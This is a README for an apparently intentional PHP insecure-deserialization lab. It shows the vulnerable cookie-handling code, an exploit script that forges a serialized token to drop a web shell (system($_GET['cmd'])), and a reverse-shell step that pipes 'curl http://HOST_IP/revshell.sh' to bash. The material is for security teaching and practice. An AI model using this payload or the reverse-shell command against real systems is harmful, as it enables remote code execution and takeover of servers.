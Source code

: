 # phpserialization-poc
This is a vulnerable php Application that serialize user class object for session management.

## How work The app
The /notes endpoint is protected and users with author privileges can it to retrieve thier notes. When user login the application
serialize the user class object and send it as cookie to the client (browser) for session management. The user class has a deconstructor
that logs users requests. 

## Run the App
#### Use the image
```sh
docker pull lig10/phpdeserialization-poc:v1.0 
docker run -d -p 3000:80 lig10/phpdeserialization-poc:v1.0
```

#### Build the image
```sh
git clone https://github.com/gil01karougbe/phpserialization-poc.git
cd phpserialization-poc
docker build -t phpserialization-poc .
docker run -d -p 3000:80 phpserialization-poc
```

## Access the App
![image](https://github.com/user-attachments/assets/f80111ff-9ca6-4eb0-a610-80c9b0e6768f)

Use the Following creds to login:
```sh
admin:admin
user:iloveyou!
john:soccer
```
![image](https://github.com/user-attachments/assets/0c2c4a9a-c534-411a-b0a9-f00b84eb38bd)
![image](https://github.com/user-attachments/assets/c5f6b3ed-af49-4ae2-bbb1-9a23cc9caee5)

## Exploitation
### Code Analysis
```php
<?php
class User{
    public $name = "";
    public $level = "";
    public $filename = "logs.txt";
    public $message = "Request From ";
    
    public function __destruct(){
        $currentDate = date('Y-m-d H:i:s');
        file_put_contents(__DIR__ . "/" . $this->filename, $this->message . $this->name . " " . $currentDate . ".\n", FILE_APPEND);
    }
}
if (isset($_COOKIE['user_token'])) {
    $token = $_COOKIE['user_token'];
    $decoded = base64_decode($token);
    $usr = unserialize($decoded);
    // SOME CODE HERE(use of the user object to search for his notes!!!)
} else {
    echo "Token not found. User not authenticated.";
}

?>
```
### Exploit
```php
<?php
class User{
    public $name = "admin";
    public $level = "";
    public $filename = "shell.php";
    public $message = "<?php system(\$_GET['cmd']); ?>";
}
//admin 
$admin = new User();
echo serialize($admin);
echo "\n";
$Token1 = base64_encode(serialize($admin));
echo $Token1;
?>
```
![image](https://github.com/user-attachments/assets/ec8d7ef2-e56c-4817-96ef-7af04dd796ca)

### RCE
![image](https://github.com/user-attachments/assets/d5f3da57-d7ef-48c9-a400-07569486eca3)
![image](https://github.com/user-attachments/assets/2c1a1832-8114-46f7-86d2-68ac15c34673)

## One Way to get a Reverse Shell
```sh
shell.php?cmd=curl http://HOST_IP/revshell.sh | bash
nc -lvnp 12345
```
![image](https://github.com/user-attachments/assets/c95d8edb-408d-45ff-972a-bf06e840974f)

![image](https://github.com/user-attachments/assets/94a11fb0-86ba-4bbc-8de3-91f8751291b1)







